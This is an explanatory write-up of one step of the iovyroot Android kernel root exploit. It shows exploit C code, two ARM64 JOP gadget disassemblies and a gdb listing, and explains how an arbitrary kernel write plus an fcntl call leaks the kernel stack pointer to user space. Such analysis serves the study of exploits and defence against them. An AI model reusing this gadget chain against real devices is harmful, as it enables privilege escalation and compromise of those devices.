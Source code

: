 ```
// in getroot end

void preparejop(void** addr, void* jopret)
{
    unsigned int i;
    for(i = 0; i < (0x1000 / sizeof(int)); i++)
        ((int*)addr)[i] = 0xDEAD;
    ...
    addr[4] = jopret; //This line 4*8 = 32 //store second gadget addr
}

// First gadget 
ffffffc0003ee4f0: f9401001  ldr x1, [x0,#32] //load 2nd gadget
ffffffc0003ee4f4: 910143a0  add x0, x29, #0x50 //leak stack pointer
ffffffc0003ee4f8: d63f0020  blr x1 //jump to 2nd gadget

// Second gadget
ffffffc0003055ac: 93407c13  sxtw x19, w0
ffffffc0003055b0: 350012f3  cbnz w19, ffffffc00030580c
ffffffc0003055b4: 17fffff6  b ffffffc00030558c
ffffffc0003055b8: f9401680  ldr x0, [x20,#40]
ffffffc0003055bc: b5000220  cbnz x0, ffffffc000305600 
ffffffc0003055c0: 9100c293  add x19, x20, #0x30
ffffffc0003055c4: aa1303e0  mov x0, x19
```
1. iovyroot uses arbitrary kernel memory write the first JOP gadget address `0xffffffc0003ee4f0` into check_flags function in [`getroot`](https://github.com/dosomder/iovyroot/blob/f05c831c02b9415666fcdd30e9c60ace246d0265/jni/main.c#L339).

2. The following fcntl call will invoke [`fcntl`](https://elixir.bootlin.com/linux/v3.18/source/fs/fcntl.c#L356) syscall. fcntl syscall will call do_fcntl(), the call sequence is: Sys_fcntl --> do_fcntl --> setfl --> check_flags(arg)
MMAP_START will be first argument to check_flags and its value is stored in register x0.

3. `preparejop` stores the second gadget address into MMAP_START + 32. The store value will be loaded by the first gadget into x1, and then jump to the second gadget `blr x1`.

4. First gadget moves stack pointer to x0, second gadget will return it to user space. In this way, the stack pointer is leaked to user space. 

The second gadget assembly is hard to understand, its c code snippet is
```
(gdb) list *(0xffffffc0003055ac)
0x3055ac is in SyS_fcntl (fs/fcntl.c:60).
55        !filp->f_mapping->a_ops->direct_IO)
56        return -EINVAL;
57    }
58 
59    if (filp->f_op && filp->f_op->check_flags)
60        error = filp->f_op->check_flags(arg);
61    if (error)
62        return error;
```
It points the line 60, where the return value error will be stack pointer, which will trigger the return.
After these two JOP gadgets, the stack pointer value will be leaked to user space.
